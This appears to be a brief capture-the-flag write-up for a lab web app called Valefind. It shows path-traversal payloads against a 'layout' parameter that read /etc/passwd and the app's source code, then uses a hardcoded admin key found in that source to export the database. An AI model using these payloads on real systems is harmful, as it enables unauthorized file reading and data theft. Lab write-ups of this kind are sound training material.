

# Valefind

# Scenario



# Solution


## Dirsearch

```python

```

Register a user on the website just to test the waters


let’s see the website’s behaviour and intercept requests with `burpsuite` 


This looks Promising a potential LFI (Local File Inclusion) exploit potential

```bash
// Vulnerability: 'layout' parameter allows LFI
fetch(`/api/fetch_layout?layout=${layoutName}`)
```

## Exploit — LFI (Local File Inclusion)

```bash
/api/fetch_layout?layout=../../../../etc/passwd
```

This worked it dumped the `/etc/passwd` directory


✅ **LFI confirmed.**

### Source Code Review

```bash
/api/fetch_layout?layout=../../../../opt/Valenfind/app.py
```


Inside `app.py` we discovered:

```bash
ADMIN_API_KEY ="CUPID_MASTER_KEY_2024_XOXO"
```

### Final Exploit

```bash
GET /api/admin/export_db HTTP/1.1
Host: vale.thm:5000
X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO
```


And that’s your flag , You’re done 😊
